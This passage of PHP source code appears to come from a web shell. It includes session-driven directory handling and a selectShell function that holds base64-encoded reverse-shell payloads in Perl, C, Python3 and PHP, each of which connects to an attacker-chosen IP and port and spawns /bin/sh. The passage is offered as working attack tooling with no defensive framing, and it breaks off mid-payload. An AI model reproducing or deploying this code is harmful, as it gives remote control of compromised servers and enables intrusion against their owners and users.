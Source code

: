 ```php
                "(" .
                get_current_user() .
                ") gid=" .
                getmygid();
        }
    }
    return $out;
}

function pwd()
{
    if (isset($_POST["value"])) {
        $_SESSION["pwd"] = stripslashes($_POST["value"]);
    }
    $cwd = getcwd();
    if (DIRECTORY_SEPARATOR === "/") {
        return rtrim($cwd, "/") . "/";
    } elseif (DIRECTORY_SEPARATOR === "\\") {
        return rtrim($cwd, "\\") . "\\";
    }
    return $cwd;
}

function selectShell($ip, $port, $method)
{
    $perl = "IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj
aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR
hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT
sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI
kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi
KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl
OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";

    $c = "I2luY2x1ZGUgPHN0ZGlvLmg+DQojaW5jbHVkZSA8c3lzL3NvY2tldC5oPg0KI2luY2x1ZGUgPG5ldGluZXQvaW4uaD4NCmludC
BtYWluKGludCBhcmdjLCBjaGFyICphcmd2W10pDQp7DQogaW50IGZkOw0KIHN0cnVjdCBzb2NrYWRkcl9pbiBzaW47DQogY2hhciBybXNbMjFdPSJyb
SAtZiAiOyANCiBkYWVtb24oMSwwKTsNCiBzaW4uc2luX2ZhbWlseSA9IEFGX0lORVQ7DQogc2luLnNpbl9wb3J0ID0gaHRvbnMoYXRvaShhcmd2WzJd
KSk7DQogc2luLnNpbl9hZGRyLnNfYWRkciA9IGluZXRfYWRkcihhcmd2WzFdKTsgDQogYnplcm8oYXJndlsxXSxzdHJsZW4oYXJndlsxXSkrMStzdHJ
sZW4oYXJndlsyXSkpOyANCiBmZCA9IHNvY2tldChBRl9JTkVULCBTT0NLX1NUUkVBTSwgSVBQUk9UT19UQ1ApIDsgDQogaWYgKChjb25uZWN0KGZkLC
Aoc3RydWN0IHNvY2thZGRyICopICZzaW4sIHNpemVvZihzdHJ1Y3Qgc29ja2FkZHIpKSk8MCkgew0KICAgcGVycm9yKCJbLV0gY29ubmVjdCgpIik7D
QogICBleGl0KDApOw0KIH0NCiBzdHJjYXQocm1zLCBhcmd2WzBdKTsNCiBzeXN0ZW0ocm1zKTsgIA0KIGR1cDIoZmQsIDApOw0KIGR1cDIoZmQsIDEp
Ow0KIGR1cDIoZmQsIDIpOw0KIGV4ZWNsKCIvYmluL3NoIiwic2ggLWkiLCBOVUxMKTsNCiBjbG9zZShmZCk7IA0KfQ==";

    $python3 = "aW1wb3J0IHNvY2tldCwgc3VicHJvY2Vzcywgb3MsIHN5cwpob3N0ID0gc3RyKHN5cy5hcmd2WzFd
KQpwb3J0ID0gaW50KHN5cy5hcmd2WzJdKQphZGRyID0gKGhvc3QsIHBvcnQpCnMgPSBzb2NrZXQu
c29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdChhZGRy
KQpvcy5kdXAyKHMuZmlsZW5vKCksIDApCm9zLmR1cDIocy5maWxlbm8oKSwgMSkKb3MuZHVwMihz
LmZpbGVubygpLCAyKQppbXBvcnQgcHR5CnB0eS5zcGF3bigiL2Jpbi9zaCIpCg==";

    $php = "PD9waHAKLy8gcGhwLXJldmVyc2Utc2hlbGwgLSBBIFJldmVyc2UgU2hlbGwgaW1wbGVtZW50YXRp
b24gaW4gUEhQCi8vIENvcHlyaWdodCAoQykgMjAwNyBwZW50ZXN0bW9ua2V5QHBlbnRlc3Rtb25r
```